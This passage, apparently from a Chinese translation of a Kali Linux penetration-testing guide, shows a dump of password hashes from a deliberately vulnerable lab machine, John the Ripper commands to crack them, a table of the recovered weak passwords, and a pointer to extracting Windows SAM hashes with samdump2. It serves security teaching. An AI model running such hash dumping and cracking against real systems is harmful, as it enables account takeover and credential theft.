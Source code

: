 ```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
```

要破解密码文件，只需发出以下命令，`pass`是您刚刚生成的密码列表文件：

```
john pass
```

如果 John 破解了密码，它会将这些密码存储在`john.pot`文件中。要查看密码，可以发出以下命令：

```
john --show pass
```

在这种情况下，John 会快速破解密码，如以下屏幕截图所示：

![](img/372cbf42-bdaf-4c7e-82cf-b14ff7de696a.png)

下表是破解密码的列表：

| **用户名** | **密码** |
| `postgres` | `postgres` |
| `user` | `user` |
| `msfadmin` | `msfadmin` |
| `service` | `service` |
| `klog` | `123456789` |
| `sys` | `batman` |

在`pass`文件中列出的七个密码中，约翰设法破解了六个密码。只有`root`的密码不能立即破解。

如果要破解 Windows 密码，首先需要从 Windows 系统和 SAM 文件中以`pwdump`输出格式提取 Windows 密码哈希（LM 和/或 NTLM）。您可以咨询[http://www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7#pwdump](http://www.openwall.com/passwords/microsoft-windows-nt-2000-xp-2003-vista-7#pwdump) 查看其中几个公用设施。其中一个是`samdump2`，由 Kali Linux 提供。
